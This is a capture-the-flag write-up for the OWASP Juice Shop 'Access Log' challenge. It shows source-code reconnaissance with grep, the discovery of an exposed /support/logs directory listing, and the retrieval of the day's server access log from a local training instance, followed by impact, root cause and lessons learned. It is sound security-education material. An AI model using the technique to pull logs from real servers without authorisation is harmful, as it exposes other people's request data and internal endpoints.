



# Access Log

## Challenge Information

| Field      | Details                                                                           |
| ---------- | --------------------------------------------------------------------------------- |
| Category   | Observability Failures                                                            |
| Challenge  | Access Log                                                                        |
| Difficulty | —                                                                                 |
| Objective  | Access a server-side access log that has been exposed through the web application |

## Objective

The objective of this challenge is to access a server access log that should normally remain available only on the server side.



## Reconnaissance / Discovery

### 1. Identify the Challenge Implementation

The first step was to locate the implementation of the **Access Log** challenge in the Juice Shop source code.

```bash
grep -Rni "Access Log" /var/lib/juice-shop/build /var/lib/juice-shop/config 2>/dev/null
```

This searches the application source and configuration for references to the challenge name.

The search identified:

```text
/var/lib/juice-shop/build/test/cypress/e2e/directAccess.spec.js
/var/lib/juice-shop/build/test/api/fileServingSpec.js
/var/lib/juice-shop/build/test/server/verifySpec.js
```

This indicated that the challenge involved direct access to a server-side log file.

### 2. Locate the Challenge Verification Logic

The challenge key was then traced through the application:

```bash
grep -Rni -C 8 "accessLogDisclosureChallenge" /var/lib/juice-shop/build 2>/dev/null
```

The relevant verification logic was found in:

```text
/var/lib/juice-shop/build/routes/verify.js
```

The challenge is solved when the requested URL contains an access-log filename:

```js
challengeUtils.solveIf(
  datacache_1.challenges.accessLogDisclosureChallenge,
  () => { return url.match(/access\.log(0-9-)*/); }
);
```

This established that an `access.log` file was the required target.

### 3. Discover the Exposed Log Directory

The server routing configuration revealed the actual web-accessible location:

```text
/var/lib/juice-shop/build/server.js
```

The relevant routes were:

```js
app.use('/support/logs', serveIndexMiddleware, (0, serve_index_1.default)('logs', { icons: true }));
app.use('/support/logs', verify.accessControlChallenges());
app.use('/support/logs/:file', (0, logfileServer_1.serveLogFiles)());
```

This showed that the application exposed the `logs` directory through:

```text
/support/logs
```

The route also allowed individual files to be requested through:

```text
/support/logs/:file
```

### 4. Confirm the Intended Access-Log Filename

A broader source search was performed:

```bash
grep -Rni -C 5 "support/logs\|access.log" /var/lib/juice-shop/build/test /var/lib/juice-shop/build 2>/dev/null | head -100
```

The Cypress test confirmed the intended request:

```js
cy.request(`/support/logs/access.log.${date.toString()}`);
```

The API test also confirmed that today's access log should return successfully:

```js
frisby.get(URL + '/support/logs/access.log.' + utils.toISO8601(new Date()))
```

This established the final target format:

```text
/support/logs/access.log.<date>
```

### 5. Directory Listing Discovery

The exposed directory was accessed at:

```text
http://127.0.0.1:42000/support/logs
```

The directory listing revealed:

```text
access.log.2026-09-28
access.log.2026-09-29
access.log.2026-09-30
audit.json
```



This was the critical attack-surface discovery: server access logs were directly exposed through a publicly accessible web directory.

## Validation

The current day's access log was selected:

```text
access.log.2026-09-30
```

The corresponding URL was:

```text
http://127.0.0.1:42000/support/logs/access.log.2026-09-30
```

The response contained real server request records, including requests to application endpoints such as:

```text
GET /rest/admin/application-configuration
GET /rest/admin/application-version
GET /rest/user/whoami
GET /rest/languages
GET /rest/products/search?q=
GET /api/Challenges/?name=Score%20Board
```

This confirmed that the exposed file was an actual server access log rather than a static demonstration file.

## Exploitation

The challenge was exploited by directly requesting the current server access log:

```text
http://127.0.0.1:42000/support/logs/access.log.2026-09-30
```

The application returned the log contents, demonstrating that server-side access logs were accessible through the web application.

The Juice Shop challenge was then marked as solved.



## Security Impact

Exposing server access logs through a web application can disclose sensitive operational information.

Depending on what an application records, logs may contain:

* Internal API routes
* Administrative endpoints
* User activity
* Request parameters
* IP addresses
* User-agent information
* Referrer information
* Potentially sensitive tokens or credentials if applications log them

In this instance, the exposed log revealed internal application endpoints and request activity.

## Root Cause

The root cause was the web application exposing its server-side log directory through a publicly accessible route:

```text
/support/logs
```

The application also provided direct access to individual log files:

```text
/support/logs/:file
```

There was no appropriate access control preventing ordinary web users from retrieving the server access logs.

## Lessons Learned

* Server logs should not normally be exposed through public web routes.
* Directory listing can reveal sensitive server-side resources.
* Reconnaissance should continue beyond the first discovered directory.
* Source-code analysis can reveal the exact route and verification logic behind a challenge.
* Access logs can contain valuable information about internal application behavior.
* Sensitive operational files should be protected by proper access controls rather than relying on obscurity.

## Conclusion

The Access Log challenge was solved by tracing the challenge implementation to the `/support/logs` route, discovering the publicly listed access-log files, and directly requesting the current day's server access log.

The complete attack chain was:

```text
Challenge identification
        ↓
Source-code reconnaissance
        ↓
Discover /support/logs
        ↓
Directory listing
        ↓
Discover access.log.<date>
        ↓
Request today's access log
        ↓
Access server-side request history
        ↓
Challenge solved
```
